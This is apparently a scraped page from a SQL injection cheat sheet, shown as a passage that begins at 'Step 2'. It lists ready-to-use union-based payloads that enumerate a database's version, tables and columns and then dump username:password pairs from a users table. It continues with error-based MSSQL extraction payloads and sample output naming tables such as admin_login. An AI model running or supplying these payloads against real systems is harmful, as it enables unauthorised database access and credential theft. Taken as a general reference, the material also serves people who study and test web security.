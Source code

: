 **Step 2: Finding columns that shows to us**

```
show_news?news_id=-2' union select 1,2,3,4,5,6 --+
show_news?news_id=-2' union select 1,version(),3,4,5,6 --+
show_news?news_id=-2' union select 1,database(),3,4,5,6 --+

```

**Step #3: Finding database tables**

```
show_news?news_id=-2' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables WHERE table_schema=database()--+
```

---

**Step 4: Finding database table columns**

```
show_news?news_id=-2' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns WHERE table_schema=database() and table_name='users'--+
```

---

**Step 5: Finding database table columns**

```
show_news?news_id=-2' union select 1,group_concat(username,0x3a,password),3,4,5,6 from users--+
```

- `0x3a` => `:`

**Error Based Exploitation**

**Extract Database name**

```
?id=4 and 1=db_name()--+

```

```
?id=4 and 1=@@version--+

```

**Table Extraction**

```
?id=4 and 1=(select table_name from information_schema.tables FOR XML PATH)--+
```

```
<row><table_name>Candidate_Details</table_name></row><row><table_name>Job_Details</table_name></row><row><table_name>Candidate_Details</table_name></row><row><table_name>Job_Details</table_name></row><row><table_name>temp_dios_sample</table_name></row><row><table_name>err_dios</table_name></row><row><table_name>admin_login</table_name></row>
```
